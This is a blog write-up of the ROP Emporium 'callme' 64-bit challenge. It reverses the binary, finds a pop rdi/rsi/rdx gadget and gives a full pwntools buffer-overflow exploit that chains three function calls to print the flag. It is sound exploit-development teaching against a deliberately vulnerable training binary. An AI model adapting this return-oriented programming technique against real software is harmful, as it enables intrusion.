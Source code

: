 ```yaml
---
layout: post
current: post
cover: assets/images/posts/2019/08/ropemporium-2-callme/pexels-photo.jpg
navigation: True
title: 'ROPEmporium: 2-Callme (64-bit)'
date: 2019-08-17
tags: 
  - exploit-dev
class: post-template
subclass: 'post'
author: christoffer
---
```


> Continuing the ROP Series with Callme, this time going through Calling conventions

Now if you haven't caught on, this is a series! I went through a bit about calling parameters in the previous post [1-Split](https://blog.securitybits.io/ropemporium-1-split-64-bit/), and in this post we'll dig into it a bit more and make 3 consecutive calls with 3 specific parameters.

## Description

> You must call **callme\_one(), callme\_two()** and **callme\_three()** in that order, each with the arguments 1,2,3 e.g. **callme\_one(1,2,3)** to print the flag. The solution here is simple enough, use your knowledge about what resides in the PLT to call the callme\_ functions in the above order and with the correct arguments.

## Setup

As usual lets download the correct archive and unzip it.
```
root@linux:~/split# wget https://ropemporium.com/binary/callme.zip
root@linux:~/split# unzip callme.zip
root@linux:~/split# ls
callme callme.zip encrypted_flag.txt key1.dat key2.dat libcallme.so
root@linux:~/split# file callme
callme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=00e98079187631025159f040444e55bed3edcf1c, not stripped
root@linux:~/split# file libcallme.so
libcallme.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=4596d32e684288a4c3c8d3daf98fe6f42ffc4454, not stripped
```

Still not stripped, but we do get a bit more files, key1.dat, key2.dat, encrypted\_flag.txt and libcallme.so. Again lets see what the callme binary wants for input data by executing it.

```
callme by ROP Emporium
64bits

Hope you read the instructions...
> inputdata

Exiting
```

So according the instructions, to print the flag the ROP chain need to make the following function calls in the specific order.

```
+-------------------------------------------------------------+
| callme_one(1,2,3) + callme_two(1,2,3) + callme_three(1,2,3) |
+-------------------------------------------------------------+
```
So again, lets create the exploit template with pwntools, and add the 40-byte junk and payload definition. The 40-byte junk will be a constant in this series and for the ROPEmporium challenges. Although if you feel uncertain on how you identify the length of the buffer overflow, go back to [0-ret2win](/2019/08/08/ropemporium-0-ret2win/) as it will be the same procedure for this as well.

## Radare2 Reversing

Now the description of the challenge claims that there should be little to no reversing at all, but for good practice lets have a look anyway.

```
root@Valkyrie:~/Documents/courses/ropemporium/2-callme# rabin2 -I callme
arch x86
baddr 0x400000
binsz 11375
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath ./
sanitiz false
static false
stripped false
subsys linux
va true
```

Opening the binary up in radare2 and looking for the callme functions confirms that they are there, and with the symbols intact.

![Radare2 Reversing](assets/images/posts/2019/08/ropemporium-2-callme/image-14.png)

That means we can use the pwntools symbols trick and in the exploit use _`exe.symbols.callme_one`_ instead of direct memory addresses, making it a bit more readable.

### Finding gadgets

Going back onto the precious blogpost where we exploited _1-split_ and the _x64\_cheatsheet,_ we know that we need to put:

- 0x1 in the RDI register (First parameter)
- 0x2 in the RSI register (Second parameter)
- 0x3 in the RDX register (Third Parameter)

So the first thing is to use ropper to list all the _pop_ gadgets, as the call _pop_ is used to put the address on top of the stack into the destination register

![Finding ROP Gadgets](assets/images/posts/2019/08/ropemporium-2-callme/image-15.png)

Conveniently on the address `0x00401ab0` there is a `pop rdi; pop rsi; pop rdx; ret;`.

## Final Exploit

```python
#Author: Christoffer.Claesson@Securitybits.io
#Blog: https://blog.securitybits.io/2019/08/17/ropemporium-2-callme-64-bit/
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('callme')

host = args.HOST or '127.0.0.1'
port = int(args.PORT or 31337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
break *0x{exe.symbols.main:x}
continue
'''.format(**locals())

#Additionally, %rdi, %rsi, %rdx, %rcx, %r8, and %r9 are used to pass the first six integer or pointer parameters to called functions
#call callme_one(1,2,3)
#call callme_two(1,2,3)
#call callme_three(1,2,3)

junk = "A"*40
pop_rdi_rsi_rdx = p64(0x00401ab0) #0x00401ab0: pop rdi; pop rsi; pop rdx; ret;
one = p64(0x1)
two = p64(0x2)
three = p64(0x3)
parameters = pop_rdi_rsi_rdx + one + two + three

# -- Exploit goes here --
payload = ""
payload += junk
payload += parameters + p64(exe.symbols.callme_one)
payload += parameters + p64(exe.symbols.callme_two)
payload += parameters + p64(exe.symbols.callme_three)

io = start()
io.recvuntil('> ')
io.sendline(payload)
log.success('Flag: ' + io.recv(512))
```

![Flag](assets/images/posts/2019/08/ropemporium-2-callme/image-16.png)

GitHub: [https://github.com/Securitybits-io/ROPEmporium](https://github.com/Securitybits-io/ROPEmporium)
